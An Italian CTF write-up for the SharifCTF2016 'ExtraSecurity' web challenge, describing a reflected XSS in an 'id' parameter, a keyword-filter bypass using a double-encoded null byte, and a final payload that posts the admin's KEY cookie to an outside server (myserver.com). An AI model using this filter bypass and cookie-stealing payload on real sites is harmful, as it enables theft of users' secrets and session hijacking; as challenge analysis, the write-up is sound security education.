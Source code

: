 ```yaml
---
layout: post
title:  "SharifCTF2016 - ExtraSecurity"
date:   2016-12-19 15:30
categories: CTF
tags: [web,SharifCTF2016]
author: jbz
---
```


Questa sfida web richiedeva di fare 'firmare' all'utente amministratore del sito un numero.

![L'homepage della challenge](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_1.png)

veniva offerta la possibilità di firmare con la propria chiave (impostata dal server in un cookie `KEY`) o di richiedere all'amministratore attraverso un form di effettuare la firma per noi. Dal testo non era chiaro quale fosse esattamente la strada da prendere: se fosse necessario rubare il cookie all'admin o se bastasse effettivamente utilizzare il form con qualche modifica.
Il testo specificava esplicitamente che l'admin avrebbe utilizzato Chrome per vedere le richieste e che quindi sarebbe intervenuto l'XSS Auditor.

Il primo problema consisteva nel fatto che nella propria pagina per effettuare la firma, all'invio del form, veniva visualizzato un popup di errore e si veniva reindirizzati prima di qualsiasi altra azione.

![Il popup di errore prima del reindirizzamento](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_4.png)

`http://ctf.sharif.edu:8083/wait_and_real_sign.php?content=259&id=<team_id>`

Dal sorgente pagina si poteva notare questo codice:

```
<script>
    alert("Sorry, server is busy for a while!");
    document.location = "/index.php?id=eyJ0ZWFtaWQiOiIyNzkifS4xY0l4eEkud0pZRGN2QWdSMG03aGUxT0VmNEZiNHZjQThZ";
</script>
```
Che è quello che causava la reindirizzazione.

Più in basso si notava anche il seguente codice, che però non veniva eseguito:

```
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("MjU5"),
            content: "MjU5",
            key: key,
            id: 'eyJ0ZWFtaWQiOiIyNzkifS4xY0l4eEkud0pZRGN2QWdSMG03aGUxT0VmNEZiNHZjQThZ'
        };
        postForm('/sign_and_store.php', body);
    });
</script>
```

Con qualche test breve si intuiva subito che il campo GET `id` era plausibilmente vulnerabile ad XSS ma che un filtro custom bloccava le richieste contenenti la maggior parte delle keyword o simboli usati per tale scopo: eval, alert, document, this, etc. C'era inoltre un limite di caratteri che rendeva impossibile l'utilizzo di (jsfuck)[http://www.jsfuck.com].

La nostra idea era quella di sfruttare la vulnerabilità nel campo `id`, il cui contenuto veniva riflesso sia nel primo script che nel secondo per rubare il cookie `KEY` all'admin ed effettuare la firma in autonomia.

Cerchiamo quindi un payload che fermi l'esecuzione del primo script e che ci permetta invece di modificare l'url di destinazione in postForm nel secondo, il tutto senza venire bloccati dal filtro di Chrome.

Il primo step è trovare un modo per rompere il primo script ma non il secondo, e questo è possibile grazie alla scelta degli organizzatori di usare apici doppi (") nel primo e apici singoli (') nel secondo:

`http://ctf.sharif.edu:8083/wait_and_real_sign.php?id=<team_id>};prompt(c['KEY']);a={'p%27:'"&content=1`

Questo payload contiene un apice doppio alla fine che rompe la sintassi del primo script, mentre chiude con un apice semplice il campo id nel secondo script, aggiunge `prompt(c['KEY'])` (equivalente di `alert(c['KEY']` ma non filtrato), e crea un nuovo dict per completare la sintassi già esistente.

Risulta quindi

```
<script>
    alert("Sorry, server is busy for a while!");
    document.location = "/index.php?id=eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};prompt(c['KEY']);a={'p':'"";
</script>
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("MQ=="),
            content: "MQ==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};prompt(c['KEY']);a={'p':'"'
        };
        postForm('/sign_and_store.php', body);
    });
</script>

```

![PoC](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_2.png)

Ora il grosso problema era il fatto che anche qualsiasi declinazione della parola `post`, `xml` o simili faceva scattare il filtro.
Dopo diversi tentativi, avendo intuito che il filtro fosse realizzato applicativamente (e che quindi non ci fosse un WAF vero e proprio), ed essendo l'applicazione in PHP, iniziammo a provare inserendo null bytes (%00) e altri caratteri come %0a e %0d.
Una volta scoperto che effettivamente il filtro falliva a processare qualsiasi cosa posta dopo un null byte, continuando i test notammo che il bypass funzionava anche effettuando il double encode di %00, cioè %2500 il che preveniva che il null byte venisse stampato nella pagina, che per qualche motivo causava qualche problema nell'esecuzione dello script (al momento del writeup non riesco a riprodurre il problema..).

Il payload finale quindi consisteva in:

```
http://ctf.sharif.edu:8083/wait_and_real_sign.php?id=<team_id>'};%0a/*%2500*/%0apostForm('http://myserver.com/', body);});garbage(x, function () {a={'p':'"&content=1
```

Che risulta nel seguente codice:

```
<script>
    alert("Sorry, server is busy for a while!");
    document.location = "/index.php?id=eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};
/*%00*/
postForm('http://myserver.com/', body);});garbage(x, function () {a={'p':'"";
</script>
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("MQ=="),
            content: "MQ==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};
/*%00*/
postForm('http://myserver.com/', body);});garbage(x, function () {a={'p':'"'
        };
        postForm('/sign_and_store.php', body);
    });
</script>

```

![Gli errori nella console dimostrano la mancata esecuzione del primo script e la corretta sintassi del secondo](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_3.png)

Da `garbage` in poi il codice serviva solo per non causare errori di sintassi.
Da notare che il filtro XSS di Chrome in questo scenario non si è mai considerato in quanto la XSS non richiede tag HTML poiché il payload finisce già all'interno di tag `<script>`.

La richiesta di firma all'admin inviava una POST che conteneva un campo URL che lasciava intendere che fosse quello che l'admin avrebbe visitato per effettuare la firma. Bisognava quindi modificare quel campo con il payload descritto sopra.

Purtroppo non siamo riusciti a risolverla in tempo per ottenere il punteggio.